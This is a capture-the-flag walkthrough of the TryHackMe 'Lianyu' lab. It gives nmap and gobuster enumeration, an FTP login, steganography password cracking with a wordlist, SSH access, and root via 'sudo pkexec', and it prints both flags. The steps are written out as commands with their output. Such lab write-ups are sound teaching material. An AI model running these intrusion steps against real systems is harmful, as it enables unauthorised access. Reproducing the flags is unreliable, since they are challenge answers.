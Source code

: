 # Lianyu

## Task 1 -- Find the Flags

### 1 - Deploy the VM and Start the Enumeration.
```bash
export IP=10.10.96.66
```

```bash
jeffrowell@kali:~/Documents/TryHackMe/Lianyu$ nmap -sC -sV -Pn -n -oN nmap/initial $IP
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-24 01:41 MDT
Nmap scan report for 10.10.96.66
Host is up (0.14s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey:
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          36277/tcp6  status
|   100024  1          45022/udp   status
|   100024  1          47566/tcp   status
|_  100024  1          60786/udp6  status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.71 seconds
```

### 2 - What is the Web Directory you found?
```bash
jeffrowell@kali:~/Documents/TryHackMe/Lianyu$ gobuster dir -u http://$IP/island -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.96.66/island
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/24 01:50:54 Starting gobuster
===============================================================
/2100 (Status: 301)
```

### 3 - what is the file name you found?
```bash
jeffrowell@kali:~/Documents/TryHackMe/Lianyu$ gobuster dir -u http://$IP/island/2100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x ticket
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.96.66/island/2100
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     ticket
[+] Timeout:        10s
===============================================================
2020/05/24 02:10:16 Starting gobuster
===============================================================
/green_arrow.ticket (Status: 200)
```

### 4 - what is the FTP Password?

Gobuster also found the `/island` directory, which in the HTML source we found the FTP username, `vigilante`:

![island](https://user-images.githubusercontent.com/32188816/82750322-9fb9bc80-9d6c-11ea-9709-52a2498d580b.png)


As for the FTP password, we have the following text that we found at the `/island/2100/green_arrow.ticket` page:

![token](https://user-images.githubusercontent.com/32188816/82750320-9e888f80-9d6c-11ea-9277-1687d2343d66.png)

This looks like base 58, so we can use CyberChef to decode to the FTP password:

![chef](https://user-images.githubusercontent.com/32188816/82750323-a21c1680-9d6c-11ea-983a-7a746452e123.png)


### 5 - what is the file name with SSH password?
After logging into FTP, we see a couple of images that we downloaded:

```bash
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 May 05 11:10 .
drwxr-xr-x    4 0        0            4096 May 01 05:38 ..
-rw-------    1 1001     1001           44 May 01 07:13 .bash_history
-rw-r--r--    1 1001     1001          220 May 01 05:38 .bash_logout
-rw-r--r--    1 1001     1001         3515 May 01 05:38 .bashrc
-rw-r--r--    1 0        0            2483 May 01 07:07 .other_user
-rw-r--r--    1 1001     1001          675 May 01 05:38 .profile
-rw-r--r--    1 0        0          511720 May 01 03:26 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05 11:10 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01 03:25 aa.jpg
```

We also notice that there is another user on the box, `slade`:

```bash
ftp> pwd
257 "/home/vigilante"
ftp> cd ..
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwx------    2 1000     1000         4096 May 01 06:55 slade
drwxr-xr-x    2 1001     1001         4096 May 05 11:10 vigilante
```

Running strings on these files gave nothing, nor did stegsolve. However, since we do have one `.jpg` file, using stegcracker we guessed the password to use steghide on `aa.jpg`.

```bash
jeffrowell@kali:~/Documents/TryHackMe/Lianyu$ python3 -m stegcracker aa.jpg /usr/share/wordlists/rockyou.txt
StegCracker 2.0.8 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)

Counting lines in wordlist..
Attacking file 'aa.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: password
Tried 4 passwords
Your file has been written to: aa.jpg.out
password
```

```bash
jeffrowell@kali:~/Documents/TryHackMe/Lianyu$ steghide extract -sf aa.jpg
Enter passphrase:
wrote extracted data to "ss.zip".
```

Unzipping the hidden archive gives us two files:

```bash
jeffrowell@kali:~/Documents/TryHackMe/Lianyu$ unzip ss.zip
Archive:  ss.zip
  inflating: passwd.txt              
  inflating: shado  
```

The password is stored in the `shado` file:
```bash
jeffrowell@kali:~/Documents/TryHackMe/Lianyu$ cat shado
M3tahuman
jeffrowell@kali:~/Documents/TryHackMe/Lianyu$ cat passwd.txt
This is your visa to Land on Lian_Yu # Just for Fun ***

a small Note about it

Having spent years on the island, Oliver learned how to be resourceful and
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.
```


### 6 - user.txt
Logging in as slade using the password from the hidden archive:

```bash
slade@LianYu:~$ ls
user.txt
slade@LianYu:~$ cat user.txt
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
			--Felicity Smoak
```

### 7 - root.txt
Slade is able to run one command as root, but I have no idea what it does:

```bash
slade@LianYu:/tmp$ sudo -l
[sudo] password for slade:
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
slade@LianYu:/tmp$
```

Trying to run the binary to see what is will do gives some useful help text. Seemingly this binary will run a command using the user that we provide it. So lets give it user root and tell it to cat the `/root/root.txt` file:
```bash
slade@LianYu:/tmp$ sudo pkexec --user root
pkexec --version |
       --help |
       --disable-internal-agent |
       [--user username] PROGRAM [ARGUMENTS...]

See the pkexec manual page for more details.
slade@LianYu:/tmp$ sudo pkexec --user root cat /root/root.txt
                          Mission accomplished

You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE.

THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
									      --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825
```
